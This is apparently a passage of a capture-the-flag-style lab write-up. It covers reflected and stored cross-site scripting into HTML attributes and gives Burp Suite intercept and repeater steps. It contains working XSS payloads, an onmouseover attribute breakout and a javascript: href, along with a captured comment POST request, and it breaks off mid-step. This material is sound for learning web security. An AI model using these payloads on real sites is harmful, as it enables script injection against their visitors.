 ```bash

"123456"

On the second occurence note the value is in quotes "123456"

Input into search:

"onmouseover="alert(1)

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519005157.png)

### Stored XSS into anchor href attribute with double quotes HTML-encoded
```bash
# This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

# <a href="javascript:alert(document.domain)">

Click "View post"
Intercept is on
Comment:

comment

Name:

name

email:

email@email.com

Website:

123456

Send to repeater
Intercept is off
Click "Go back to blog"
Intercept is on
Click "name" // The last comment by username "name"
Send to repeater
Intercept is off
Go to: Repeater
Clicking "name" end-point:

GET /123456 HTTP/1.1 // Name of website

Go to:

POST /post/comment HTTP/1.1

Change:

csrf=xJAdBTi5vpk8VQAjNmiVEzhPQIASt0cn&postId=8&comment=comment&name=name&email=email%40email.com&website=123456

To

```